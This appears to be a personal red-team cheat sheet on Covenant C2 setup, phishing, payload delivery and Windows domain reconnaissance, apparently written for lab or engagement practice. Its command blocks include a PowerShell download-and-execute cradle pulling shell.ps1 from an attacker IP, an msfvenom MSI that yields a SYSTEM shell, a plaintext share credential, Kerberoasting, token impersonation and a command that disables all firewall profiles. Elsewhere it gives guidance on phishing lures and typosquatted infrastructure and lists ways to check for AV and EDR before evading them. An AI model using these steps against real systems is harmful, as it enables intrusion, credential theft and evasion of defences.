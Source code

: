 # Red Teaming / C2



## Covenant

{% code overflow="wrap" fullWidth="true" %}
```sh
# INSTALLATION
The easiest way to use Covenant is by installing dotnet core. You can download dotnet core for your platform from here.
https://dotnet.microsoft.com/download/dotnet-core/3.1
Be sure to install the dotnet core version 3.1 SDK!
$ ~ > git clone --recurse-submodules https://github.com/cobbr/Covenant
$ ~ > cd Covenant/Covenant
$ ~/Covenant/Covenant > dotnet run

# REGISTER A NEW USER

# LISTENERS
Listeners (on the left menu) > Create
Choose the same BindPort and ConnectPort # (80 or 9999 for example)
ConnectAddresses has to be our attacking IP

# LAUNCHERS
Launchers menu (on the left) > Select PowerShell
Verify the default settings and click on Generate
Click on the Host tab and enter /shell.ps1 on Url field, which will be the path to the served launcher.
Then click on Host button so Launcher will show ..../shell.ps1 as part of the DownloadString command on Launcher field
Finally we execute that launcher command on the target (CMD/PS shell) # use port 9999 or just port 80 
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.8:9999/shell.ps1')
After that, we should get a notification "grunt X has been activated"


# GRUNTS
Click on the Grunt ID > Then Interact tab > Type SharpUp audit to run privesc checks
SharpUp audit # run privesc checks
shellcmd $COMMAND # run a shell command (do not use quotes)
# SYSTEM REVSHELL USING THE LAUNCHER 
msfvenom -p windows/x64/exec CMD="cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.14.14.4/shell.ps1')" -f msi > pwn.msi
shellcmd msiexec /q /i \\10.14.14.4\share\pwn.msi # change to a writable directory first
cat $FILE # read file
# Import PowerShell file
PowerShellImport // PowerView.ps1
# POWERVIEW COMMANDS
PowerShell Get-NetDomain
PowerShell Get-DomainComputer | Select name
PowerShell Find-DomainShare
net view /all \\citrix
net use \\citrix\citrix$ /u:mturner 4install!
dir \\citrix\citrix$
ls \\$HOSTNAME\$SHARE
# KERBEROASTING
PowerShell Invoke-Kerberoast
# IMPERSONATE AS A USER HAVING CREDS
MakeToken $USER DOM.COM $PASS LOGON32_LOGON_INTERACTIVE
WhoAmI
```
{% endcode %}

## Havoc

[https://medium.com/@sam.rothlisberger/havoc-c2-with-av-edr-bypass-methods-in-2024-part-1-733d423fc67b](https://medium.com/@sam.rothlisberger/havoc-c2-with-av-edr-bypass-methods-in-2024-part-1-733d423fc67b)

## Phishing

### Convincing Phishing Emails

* Sender address from a significant brand, contact or cowoker. Use OSINT to suit it better to the destinatary.
* Subject: urgent, worrying, piques the victim's curiosity (account compromised, package shipped, payroll info, leaked pics...
* Content/Body: mimic standard email templates of the company, signatures, use anchor text \<a href> to disguise links

### Phishing Infrastructure

* Domain Name (buy expired domains, typosquatting, TLD alternative such as .co.uk, IDN Homograph Attack/Script Spoofing)
* SSL/TLS certificates
* Email Server/Account
* DNS Records to improve deliverability (not getting into spam folder)
* Web Server
* Analytics of emails sent, opened...

[https://getgophish.com/](https://getgophish.com/)

[https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

Droppers > software to be downloaded and run (legitimate but once installed, the intended malware is either unpacked or downloaded)

Use MS Office in Phishing as attachments with macros

Browser exploits: difficult, but might work if we know systems and are old or unpatched for sth like [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)

## DELIVERY TECHNIQUES

### Mail

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

Another interesting method would be to use a compromised email account within a company to send phishing emails within the company or to others.

### Web

[https://attack.mitre.org/techniques/T1189/](https://attack.mitre.org/techniques/T1189/)

Web server with reputation of its domain name and TLS (Transport Layer Security) certificate.

### USB

[https://attack.mitre.org/techniques/T1091/](https://attack.mitre.org/techniques/T1091/)

Useful at conferences or events where the adversary can distribute the USB.

Common USB attacks used to weaponize USB devices include [Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) and [USBHarpoon](https://www.minitool.com/news/usbharpoon.html), chargingĀ USB cable, such asĀ [O.MG Cable](https://shop.hak5.org/products/omg-cable).

## Initial Access

### Network Infrastructure

Internal network with VLAN for example

A DMZ Network is an edge network that protects and adds an extra security layer to a corporation's internal local-area network from untrusted traffic. A common design for DMZ is a subnetwork that sits between the public internet and internal networks.

### AD

<figure><img src="../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

```
systeminfo | findstr Domain
 Get-ADUser  -Filter *
 Get-ADUser -Filter * -SearchBase "CN=Users,DC=DOMAIN,DC=COM"
```

### AV

```
wmic /namespace:\\root\securitycenter2 path antivirusproduct
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
Get-Service WinDefend
Get-MpComputerStatus | select RealTimeProtectionEnabled
```

### FW

```
Get-NetFirewallProfile | Format-Table Name, Enabled
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
Get-NetFirewallProfile | Format-Table Name, Enabled
Get-NetFirewallRule | select DisplayName, Enabled, Description
# To test inbound connection on port 80
Test-NetConnection -ComputerName 127.0.0.1 -Port 80
Get-MpThreat # threats details that have been detected using MS Defender
```

### Security Event Logging and Monitoring

{% code overflow="wrap" fullWidth="true" %}
```bash
Get-EventLog -List
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-eventlog?view=powershell-5.1
# Sysmon -> check if it is present
https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon
Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
Get-Service | where-object {$_.DisplayName -like "*sysm*"}
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\* # find sysmon config file
# EDR detection
software for endpoints
• Cylance
• Crowdstrike
• Symantec
• SentinelOne
• Many others
https://github.com/PwnDexter/Invoke-EDRChecker
https://github.com/PwnDexter/SharpEDRChecker
```
{% endcode %}
